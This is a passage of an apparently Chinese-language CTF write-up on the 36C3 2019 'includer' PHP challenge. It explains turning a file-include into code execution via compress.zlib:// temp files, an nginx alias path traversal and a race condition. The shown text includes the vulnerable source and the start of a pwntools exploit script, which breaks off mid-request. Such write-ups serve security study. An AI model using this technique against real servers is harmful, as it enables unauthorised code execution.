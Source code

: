 可以看到临时文件中就是baidu的首页内容

因此我们可以使用这样的思路，用`compress.zlib://evil_url`来传evil_code，可以用pwntools库来控制具体传输的内容；同时因为临时文件会被自动删除，我们可以写入大量垃圾内容 或用`compress.zlib://ftp://`来控制传输速率来保持连接

### [36c3 2019]includer

```php
<?php
declare(strict_types=1);

$rand_dir = 'files/'.bin2hex(random_bytes(32));
mkdir($rand_dir) || die('mkdir');
putenv('TMPDIR='.__DIR__.'/'.$rand_dir) || die('putenv');
echo 'Hello '.$_POST['name'].' your sandbox: '.$rand_dir."\n";

try {
    if (stripos(file_get_contents($_POST['file']), '<?') === false) {
        include_once($_POST['file']);
    }
}
finally {
    system('rm -rf '.escapeshellarg($rand_dir));
}
```

有了上面的铺垫这里就清晰很多，我们可以先利用`compress.zlib://http://xxxxxx`上传含evil code的大文件以此来生成缓存文件，然后再让其被包含执行 最终getflag

但题目中多了不少限制，首先是`rand_dir`让我们不知道缓存文件的绝对路径 这会影响到后面的rce；错误的配置文件可以解决这一问题

```
location /.well-known {
  autoindex on;
  alias /var/www/html/well-known/;
}
```

借此我们可以遍历到上层文件夹，但每次执行后文件名都是随机的，

其次需要满足的条件是`stripos(file_get_contents($_POST['file']), '<?') === false`，也就是传输的内容中不能包含`<?`，这对php来说简直是致命打击

对于这一问题 标答是<u>race condition</u>，利用`file_get_contents`和`include_once`执行过程中微弱的时间窗口来绕过，即：先发送垃圾数据，通过if判断后再传evil code

```python
from pwn import *
import requests
import re
import threading
import time


for gg in range(100):

    r = remote("192.168.34.1", 8004)
    l = listen(8080)

    data = '''name={}&file=compress.zlib://http://192.168.151.132:8080'''.format("a"*8050)

    payload = '''POST / HTTP/1.1
Host: 192.168.34.1:8004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Content-Length: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Cookie: PHPSESSID=asdasdasd
Upgrade-Insecure-Requests: 1
```